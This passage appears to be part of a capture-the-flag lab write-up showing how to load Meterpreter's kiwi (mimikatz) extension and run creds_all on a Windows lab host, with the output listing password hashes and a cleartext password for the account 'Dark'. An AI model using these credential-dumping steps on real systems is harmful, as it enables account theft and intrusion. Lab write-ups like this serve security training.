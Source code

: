 ***NOTE***: As the command output quite clearly suggest that the extenstion's name has been changed to `kiwi`, it's better to use `load kiwi` instead of `load mimikatz`.

Accessing the `help` menu as instructed:

```console
meterpreter > ?                             

...
...
...

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)

    ...
    ...
```

We get the answer to the next question.
> Which command allows up to retrieve all credentials?\
> > creds_all

And running this command gives us the answer to the question after that:

```console
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                          NTLM                         SHA1
--------  ------   --                          ----                         ----
Dark      Dark-PC  e52cac67419a9a22ecb0836909  7c4fe5eada682714a036e393783  0d082c4b4f2aeafb67fd0ea568a
                   9ed302                      62bab                        997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```